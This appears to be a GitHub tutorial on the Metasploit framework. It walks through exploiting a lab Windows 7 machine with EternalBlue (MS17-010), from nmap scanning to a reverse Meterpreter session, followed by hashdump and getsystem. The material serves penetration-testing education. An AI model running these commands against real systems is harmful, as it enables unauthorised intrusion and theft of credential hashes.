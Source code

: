 
# Metasploit

Metasploit is an exploitation framework (aka penetration framework) , build for security professional to support penetration testing.

**Most related alternative**

Cobalt strike – closed source/ commercial use only

## Why prefer Metasploit?
It supports and provides sufficient tools for almost all the phases of the penetration testing.

**Notations**
```mermaid
graph TB
A(Metasploit support)
B(Commercial version only)
style A fill:lightgreen,color:black,stroke:#333,stroke-width:1px
style B fill:orange,color:black,stroke:#333,stroke-width:1px

```
**Phases of penetration testing**
```mermaid
graph LR
A(Reconnance) --> B(Scanning)
B --> C(Gaining Access)
C --> D(Maintaining Access)
D --> E(Clearing Tracks)
E --> F(Reporting)

style A fill:lightgreen,color:black,stroke-width:1px
style B fill:lightgreen,color:black,stroke-width:1px
style C fill:lightgreen,color:black,stroke-width:1px
style D fill:lightgreen,color:black,stroke-width:1px
style E fill:lightgreen,color:black,stroke-width:1px
style F fill:orange,color:black,stroke-width:1px
```

## Modules provided by Metasploit?

 - exploits – the code that if executed takes advantage of the vulnerability to get unauthorized access to the desired system. Usually by the payload.

- payload – used by exploits. payload is a piece of code that are run by the target after successful exploitation (for backdoor, add new user, privilege escalation)

- Auxiliary – pre-exploitation features (scanning, fuzzing, sniffing)

- Encoders – to bypass firewall, IDS, IPS, Antivirus

- NOPS – no operation, use to ensure that if using multiple payloads, it is of same size. It ensures the proper execution of the instructions.

## How to Get Started?

### Metasploit Framework is Accessible Through:

 - Msfconsole [Metasploit Unleashed (offsec.com)](https://www.offsec.com/metasploit-unleashed/msfconsole/)
 - Armitage


**NOTE:** In case you are using any pen-testing OS like [Kali Linux](https://www.kali.org/) or [Parrot Security](https://www.parrotsec.org/), Metasploit  framework comes pre-installed with Msfconsole in them. 


## Penetrating Windows 7 Machine?

**Attacker's Machine:** Kali Linux 2022.2

**Target Machine:** Windows 7

**Prerequisite:** 

 - The environment is setup oracle vmware, in NAT connection 
 - The firewall of the windows is already disabled in this demonstration
 - The Attacker and Target machine is connected over the save network. i.e., they are in same subnet.  

**NOTE: All steps written below will be performed in the atacker's machine**

**Step 1: Open msfconsole**

```bash
sudo msfconsole
```

**Step 2: Finding the Target's IP**

Find your eth0 IP address, to identify subnet to scan, because as the target machine is connected with the same router, it must be in the same subnet as well.
```bash
msf> ifconfig
```
Let attaker's IP: 192.168.126.128
Running a simple no-port host discovery nmap scan on the sub-network to find the target's machine.
```bash
msf> nmap -sn 192.168.126.0/24
```
![scan 1  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan1.png)

One of this host could be the target machine we are looking for, so let's perform the osscan to be sure.
```bash
msf> nmap -O 192.168.126.0/24
```
![scan 2  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan2.png)
We found the IP address of the target machine.
Target IP: 192.168.126.132

**Step 3: Finding Vulnerability in Target Machine**

Checking if the current version of OS the target machine is running on is having any publicly known vulnerability. This can be achieved by nmap script scan.
```bash
msf> nmap --script="vuln" 192.168.126.132
```
![scan 3  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan3.png)

We identified that the target's machine is vulnerable for remote code execution, by the exploit smb-vuln-ms17-010. more details could be gathered from [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143).

**Step 4: Finding and Setting up the Exploit**

search is there is any exploit module available to exploit the Windows's SMB vulnerability ms17-101.

```bash
msf> search ms17 platform:windows
```

![exploit 1 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit1.png)


As we can see in the description of module index 0, it is mentioned that it provides an exploit named EternalBlue for MS17-010 vulnerability. We are going to use EternalBlue exploit, although you can also go for other modules.

```bash
msf> use 0
msf> show options
```

**NOTE:** You can use "show payload" to explore and change payload attached with the exploit.

![exploit 2 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit2.png)


As you can see, the place of RHOST is not set and mandatory to fill.

```bash
msf> set RHOST 192.168.126.132
```

![exploit 3 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit3.png)

**NOTE:** If your LHOST and LPORT is not set by default you can run following command to set LHOST to attacker's IP and LPORT to any random free port.
```bash
msf> set LHOST 192.168.126.128
msf> set LPORT 4444
```
**Step 5: Exploiting to Gain Access**

After setting up the environment just type exploit or run to execute the payload.
```bash
msf> exploit
```

Wait for few seconds and you will see an active meterpreter session. To verify your access, you can run following commands.

```bash
meterpreter> sysinfo
meterpreter> pwd
```

![success 1 result](https://github.com/000Sushant/metasploit_docs/blob/main/success1.png)

**Step 6: Post Exploitation Steps**
commands like hashdump and getsystem could be used to perform privilege escalation. 

```bash
meterpreter> hashdump
meterpreter> getsystem
```

![success 2 result](https://github.com/000Sushant/metasploit_docs/blob/main/success2.png)

However, it looks like the exploit we used also gave us the admin privilege in the provided meterpreter session.
